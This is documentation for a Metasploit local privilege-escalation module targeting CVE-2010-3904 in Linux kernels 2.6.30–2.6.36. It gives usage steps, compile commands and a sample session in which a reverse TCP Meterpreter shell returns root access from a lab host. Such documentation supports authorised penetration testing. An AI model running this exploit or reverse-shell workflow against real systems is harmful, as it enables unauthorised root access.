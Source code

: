 ## Description

  This module exploits a vulnerability in the `rds_page_copy_user` function
  in `net/rds/page.c` (RDS) in Linux kernel versions 2.6.30 to 2.6.36-rc8
  to execute code as `root` (CVE-2010-3904).


## Vulnerable Application

  This module has been tested successfully on:

  * Fedora 13 (i686) with kernel version 2.6.33.3-85.fc13.i686.PAE
  * Ubuntu 10.04 (x86_64) with kernel version 2.6.32-21-generic


## Verification Steps

  1. Start `msfconsole`
  2. Get a session
  3. Do: ```use exploit/linux/local/rds_rds_page_copy_user_priv_esc```
  4. Do: ```set SESSION [SESSION]```
  5. Do: ```check```
  6. Do: ```run```
  7. You should get a new *root* session


## Options

### SESSION

  Which session to use, which can be viewed with `sessions`

### WritableDir

  A writable directory file system path. (default: `/tmp`)

### COMPILE

  Options: `Auto` `True` `False` (default: `Auto`)

  Whether the exploit should be live compiled with `gcc` on the target system,
  or uploaded as a pre-compiled binary.

  `Auto` will first determine if `gcc` is installed to compile live on the system,
  and fall back to uploading a pre-compiled binary.


## Compiled Executables

The module makes use of two pre-compiled exploit executables (`rds.x86` and `rds.x64`),
to be use when `gcc` is not available on the target host for live compiling, or
`COMPILE` is set to `False`.

The executables were cross-compiled with [musl-cross](https://s3.amazonaws.com/muslcross/musl-cross-linux-6.tar.xz):

```bash
./x86_64-linux-musl-gcc -o rds.x64 -pie -static rds.c
./i486-linux-musl-gcc -o rds.x86 -pie -static rds.c
```


## Scenarios

  ```
  msf > use exploit/linux/local/rds_rds_page_copy_user_priv_esc
  msf exploit(linux/local/rds_rds_page_copy_user_priv_esc) > set session 1
  session => 1
  msf exploit(linux/local/rds_rds_page_copy_user_priv_esc) > set lhost 172.16.191.188
  lhost => 172.16.191.188
  msf exploit(linux/local/rds_rds_page_copy_user_priv_esc) > run

  [*] Started reverse TCP handler on 172.16.191.188:4444 
  [*] Writing '/tmp/.zEAOL.c' (7282 bytes) ...
  [*] Writing '/tmp/.kBTWC7E' (237 bytes) ...
  [*] Launching exploit...
  [*] Sending stage (853256 bytes) to 172.16.191.149
  [*] Meterpreter session 2 opened (172.16.191.188:4444 -> 172.16.191.149:40103) at 2018-05-03 08:52:59 -0400
  [+] Deleted /tmp/.zEAOL.c
  [+] Deleted /tmp/.zEAOL
  [+] Deleted /tmp/.kBTWC7E

  meterpreter > getuid
  Server username: uid=0, gid=0, euid=0, egid=0
  meterpreter > sysinfo
  Computer     : 172.16.191.149
  OS           : Ubuntu 10.04 (Linux 2.6.32-21-generic)
  Architecture : x64
  BuildTuple   : i486-linux-musl
  Meterpreter  : x86/linux
  meterpreter > 
  ```

## Re-exploitation

The exploit C code utilizes a defined send (`5555`) and receive (`6666`) port, which are opened while the payload is active.
Attempt to re-exploit while a successful exploit payload is open will result in the error:

```
[*] Could not bind socket.
```

However, killing that payload will allow for the exploit to run successfully.
